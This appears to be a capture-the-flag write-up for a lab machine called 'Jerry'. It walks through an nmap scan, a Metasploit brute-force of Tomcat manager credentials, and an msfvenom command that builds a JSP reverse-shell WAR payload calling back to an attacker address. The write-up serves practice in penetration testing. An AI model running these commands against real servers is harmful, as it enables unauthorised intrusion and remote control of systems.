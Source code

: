 # Jerry

## NMAP scan

### Scan command

```sh
nmap -A -T5 -p-  10.10.10.95
```

### Result
```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-09 05:50 EDT
Nmap scan report for 10.10.10.95
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   199.09 ms 10.10.14.1
2   199.91 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 212.25 seconds
```

## Result analysis

From the NMAP scan, we see that the port 8080 is open and is a tomcat server. So for our attack strategy, we can use the following:

1. Attack the tomcat server with any version exploits
2. Brute-force admin site password

### Checking out the tomcat server

Upon first inspection after loading the tomcat manager into a browser, we see that it is still
an unconfigured server. This presents a likely answer that the server is not even set up yet.

### Metasploit

Using metasploit to crack the credentials

```sh
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 10.10.10.95
exploit
```

and the username and password is given as username: `tomcat`, password: `s3cret`

### Exploitation

After logging onto the webpage, we see that it is possible to get a reverse shell by a `war` file.
Let's create a payload from MSFVenom to make a reverse shell

### MSFVenom

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=8888 -f war > shell.war
```

Now upload the war file to the tomcat server

### Reverse shell

```sh
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 10.10.14.14
set lport 8888
```

and now nagivate to `10.10.10.95:8080/shell` to run the shell payload.
and this gives us what we want! A reverse shell.

Navigating to the desktop of administrator

```sh
type "2 for the price of 1.txt"
```

and both the flags appear